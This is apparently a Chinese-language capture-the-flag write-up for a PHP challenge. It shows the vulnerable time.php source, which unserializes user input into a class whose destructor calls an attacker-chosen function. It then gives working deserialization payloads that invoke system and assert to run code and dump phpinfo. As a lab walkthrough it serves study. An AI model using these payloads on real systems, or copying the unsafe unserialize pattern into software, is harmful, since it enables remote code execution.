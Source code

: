 ![[Pasted image 20221201150134.png]]

---
首页长这样

![[Pasted image 20221201150215.png]]

查看前端代码，尝试寻找注入

![[Pasted image 20221201150309.png]]

```php
/time.php?source
```

```php
<?php
#error_reporting(0);
class HelloPhp
{
    public $a;
    public $b;
    public function __construct(){
        $this->a = "Y-m-d h:i:s";
        $this->b = "date";
    }
    public function __destruct(){
        $a = $this->a;
        $b = $this->b;
        echo $b($a);
    }
}
$c = new HelloPhp;

if(isset($_GET['source']))
{
    highlight_file(__FILE__);
    die(0);
}

@$ppp = unserialize($_GET["data"]);

```

看样子是个简单的反序列化，尝试以下payload
```php
/time.php?data=O:8:"HelloPhp":2:{s:1:"a";s:2:"ls";s:1:"b";s:6:"system";}
```
![[Pasted image 20221201154452.png]]

并没有反应，看来是`system`被ban了

`eval`作为特殊形式，本身不是函数，所以不能使用

尝试用`file_get_contents`读出和构造匿名函数，结果都失败了QAQ，一是不知道`flag`在什么文件里，二是匿名函数不能序列化

看网上大佬用的`assert`才想起来还有这玩意

`flag`不知道在哪个文件里，答案是作为环境变量了，要通过`phpinfo()`获得
```php
/time.php?data=O:8:"HelloPhp":2:{s:1:"a";s:9:"phpinfo()";s:1:"b";s:6:"assert";}
```

![[Pasted image 20221201170810.png]]

这个在本地机上咋也跑不起来QAQ，然后查文档发现是本地机`php`版本太高了

![[Pasted image 20221201165741.png]]

![[Pasted image 20221201165815.png]]

#Web #PHP #反序列化 #绕过 #assert #函数 #环境变量